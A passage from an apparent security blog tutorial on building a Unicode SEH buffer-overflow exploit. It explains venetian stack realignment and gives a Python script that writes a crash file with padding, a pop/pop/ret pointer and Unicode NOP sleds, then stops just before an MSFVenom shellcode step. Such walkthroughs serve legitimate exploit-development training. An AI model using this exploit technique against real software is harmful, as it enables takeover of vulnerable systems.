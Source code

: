 When read into memory, this will grab our unwanted null bytes and attach them all to the appropriate 0x75 bytes so they do not get in the way of what we are trying to do.

<figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image016.png" alt=""><figcaption><p> Stack alignment instructions in memory</p></figcaption></figure>

As we can see, our 0x004800B3 pointer has converted into harmless instructions and our Unicode NOPs have absorbed the unwanted null bytes. We then add 0x1000FF00 to EAX and subtract 0x1000EA00 from it in order to leave EAX with the value of 0x0019E664 or 1190 bytes past the current location of EIP.

This is where our second Unicode NOP comes into play. We will now fill the space between EIP and the address of our final payload with the second NOP (0x71).  Remember, there is a null byte added with each character we inject so we only need half the number of characters as there are bytes between EIP and EAX.

```

1.	f = open("crash-5.txt", "wb")  
2.	  
3.	buf = b""  
4.	buf += b"\x41" * 1019  
5.	buf += b"\x71\x71"       # Unicode NOP  
6.	buf += b"\xB3\x48"       # 0x004800b3 | pop ecx, pop ebp, ret  
7.	  
8.	#realigning stack  
9.	buf += b"\x75"           # Unicode NOP  
10.	buf += b"\x54"           # Push ESP  
11.	buf += b"\x75"           # Unicode NOP  
12.	buf += b"\x58"           # POP EAX  
13.	buf += b"\x75"           # Unicode NOP  
14.	buf += b"\x05\xFF\x10"   # ADD EAX,  
15.	buf += b"\x75"           # Unicode NOP  
16.	buf += b"\x2d\xEA\x10"   # SUB EAX,  
17.	buf += b"\x75"  
18.	  
19.	buf += b"\x71" * 595  
20.	  
21.	buf += b"\x44" * (5000 - len(buf))  
22.	  
23.	f.write(buf)  
24.	f.close()  
```

\
Finally, all we have to do is create a payload and add it to our shell code and this should be completed.

### Finishing the Exploit

In order to create our payload, we will once again be using MSFVenom. To do that, boot up an instance of Kali or wherever you keep a copy of MSFVenom, and run the following command to generate our payload:

**Command:**
